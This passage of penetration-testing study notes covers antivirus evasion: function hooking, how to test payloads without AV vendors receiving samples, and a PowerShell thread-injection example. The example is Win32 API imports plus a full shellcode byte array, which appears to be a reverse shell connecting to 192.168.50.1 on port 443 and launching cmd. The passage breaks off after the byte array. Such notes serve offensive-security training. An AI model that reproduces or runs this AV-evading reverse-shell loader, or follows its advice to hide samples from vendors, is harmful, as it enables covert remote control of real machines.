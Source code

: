 	- modifying memory and introducing a hook (an instruction that redirects the code execution) into a function to make it point to our malicious code
	- Upon executing our malicious code, the flow will return back to the modified function and resume execution, appearing as if only the original code had executed
### Testing for AV Evasion
- VirusTotal
	- *CAUTION* - sends malware signature to other vendors so AVs can be updated
	- may cause AV to block your new malware
- AntiScan.Me
	- claims it does not divulge any samples
- If TGT environment specifics are known
	- build a dedicated VM that resembles the customer environment
	- test
- Disable AV Automatic Sample Submission in Windows
	- Windows Security > Virus & threat protection > Manage Settings
- No internet = some advanced AV features inhibited

### Evading AV with Thread Injection

- script > PE
	- script = non-binary file kinda
Example:
- Using remote process memory injection
	- ```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;
